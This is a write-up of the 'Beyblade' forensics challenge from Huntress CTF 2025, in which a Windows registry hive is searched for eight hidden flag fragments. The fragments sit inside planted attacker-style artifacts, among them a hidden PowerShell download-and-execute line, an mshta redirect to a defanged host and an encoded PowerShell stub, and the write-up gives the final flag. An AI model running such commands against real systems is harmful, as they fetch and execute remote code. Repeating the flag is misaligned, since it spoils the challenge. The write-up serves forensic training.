



# Huntress CTF 2025 - 🔍 Beyblade  

**CTF Name:** Huntress CTF 2025  
**Challenge name:** 🔍 Beyblade  
**Challenge prompt:**  
> Sheesh! Some threat actor sure did let it rip on this host! We've been able to uncover a file that may help with incident response.

```
NOTE

The password to the ZIP archive is "beyblade".
This challenge has the flag MD5 hash value separated into chunks. You must uncover all of the different pieces and put them together with the "flag{" and "}" suffix to submit.
```

**Challenge category:** Forensics  
**Challenge points:** 10

* * *  

## Steps to solve  

In this challenge we were given `beyblade.zip` archive, which inside contained `bayblade` file. I started recon with `file` command:



Once I knew that this file is a Windows registry hive, I used Registry Spy to load the hive for analyse. Once loaded, I started search, with `flag` term specified:



```powershell
powershell -nop -w hidden -c iwr http://cdn.update-catalog[.]com/agent?v=1 -UseBasicParsing|iex ; # flag_value_1_of_8-47cb
```

Alright, it makes me believe that the flag is split into 8 equal fragments. I may need to shift to other tool that would allow me to use RegEx such like this one `(1|2|3|4|5|6|7|8).{0,5}8.{1,2}[a-z0-9]{4}.{0,10}$`:



All of the flags are visible in the picture above :)

Here are the extracted flag parts:

```
powershell -nop -w hidden -c iwr http://cdn.update-catalog[.]com/agent?v=1 -UseBasicParsing|iex ; # flag_value_1_of_8-47cb
```

```
cmd /c start /min mshta about:<script>location='http://telemetry.sync-live[.]net/bootstrap?stage=init&note=hash-value-2-8_5cd4'</script>
```

```
http://auth.live-sync[.]net/login?session=chunk+3of8:6d7b
```

```
powershell.exe -e JABNAE0A; ## piece:4/8-b34a
```

```
C:\Users\Public\fragment-5_of_8-0d9c
```

```
C:\Windows\System32\wmiprvse.exe /k netsvcs -tag shard(6/8)-315a
```

```
Microsoft Management Console - component#7of8-99bb
```

```
administrator|segment-8-of-8=58de
```

Once obtained, they could be combined to form whole flag.

**FLAG:** flag{47cb5cd46d7bb34a0d9c315a99bb58de}  
